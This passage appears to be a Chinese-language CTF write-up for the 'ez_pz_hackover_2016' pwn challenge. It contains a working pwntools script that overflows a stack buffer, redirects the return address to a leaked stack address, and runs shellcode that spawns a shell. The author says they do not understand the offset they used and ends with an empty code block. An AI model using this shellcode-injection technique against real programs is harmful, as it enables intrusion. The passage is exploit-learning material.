 ![image-20231230201722354](../assets/img/old_imgs/image-20231230201722354.png)

> 手动查找得到栈实际空间为`0x1a`

> distance计算栈之间的距离

```python
from pwn import *
context.log_level = 'debug'
#io = process('./ez_pz_hackover_2016')
io = gdb.debug('./ez_pz_hackover_2016','break vuln')
elf = ELF('./ez_pz_hackover_2016')
io.recvuntil(b'Yippie, lets crash: ')
s_addr = int(io.recv(10),16)
print('s_addr',hex(s_addr))
payload1 = b'crashme\x00'
payload1 = payload1.ljust(0x1a,b'A')
payload1 += p32(s_addr-0x1c)+asm(shellcraft.sh())
io.sendlineafter('> ',payload1)
io.interactive()
```

`s`栈上的空间写不下`shellcode`所以直接把`shellcode`写在`ret`地址之后.

> ?这里的`s_addr`为什么要`-0x1c`还不了解,偏移后的位置正好是一个输入的栈的起始但为什么是这个值还不清楚.

这道题应该也可以通过泄露Libc的方式做,但是没有成功

```python

```
